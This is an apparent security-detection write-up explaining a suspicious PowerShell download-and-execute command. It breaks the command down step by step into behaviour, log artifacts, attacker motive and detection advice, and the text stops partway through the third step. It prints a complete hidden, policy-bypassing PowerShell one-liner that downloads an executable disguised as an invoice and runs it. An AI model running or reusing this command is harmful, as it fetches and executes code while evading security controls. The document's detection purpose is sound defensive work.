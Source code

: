 # Suspicious PowerShell Activity Detected: Attempted Malicious File Download and Execution - Attack Usage

## Overview:

This sequence is built to fetch a file from a network location and run it while reducing visibility and interrupting normal security signals. What this really means is the actor is trying to automate delivery and execution while making forensic and user detection harder.
```
powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference='silentlycontinue'; (New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\test-WDATP-test\invoice.exe'); Start-Process 'C:\test-WDATP-test\invoice.exe'
```

## Step 1 Start PowerShell with NoExit
**What it does:** Starting PowerShell with NoExit keeps the shell open after the command returns. The process remains alive instead of terminating immediately.

**What shows up in logs:** A long running powershell.exe process with a start time that does not match normal interactive sessions. Command line fields will include an argument that indicates the NoExit option. Event logs may show a spawn of powershell.exe with a parent process that is unusual for interactive shells.

**Why an attacker likes this:** It allows follow on commands to execute in the same session, and it can leave the process present while other actions complete. That increases the window for the payload to be downloaded and run.

**How to detect and respond:** Look for powershell.exe processes with abnormal lifetimes or nonstandard parent processes. Flag long lived PowerShell tokens that are not associated with legitimate admin sessions. If seen, collect process memory and command line arguments and isolate the host.

## Step 2 Set ExecutionPolicy to Bypass
**What it does:** Setting execution policy to bypass overrides local script execution restrictions. It removes the built in prompts or policy checks that would normally prevent unsigned or restricted scripts from running.

**What shows up in logs:** Command line parameters in process creation events will contain the execution policy argument. Script block logging, if enabled, will show the script content. Transcription files, if configured, will capture commands that ran.

**Why an attacker likes this:** Scripts and remote code run without being blocked by policy, so scripted payloads execute on locked down systems.

**How to detect and respond:** Ensure script block logging and module logging are enabled. Correlate executionpolicy command line flags with other suspicious indicators. If bypass is observed, treat the session as hostile, capture artifacts, and reset local policies where possible.

## Step 3 Run with WindowStyle Hidden
**What it does:**
Running with window style set to hidden launches the shell or script without a visible window. The action is invisible to the interactive user session.

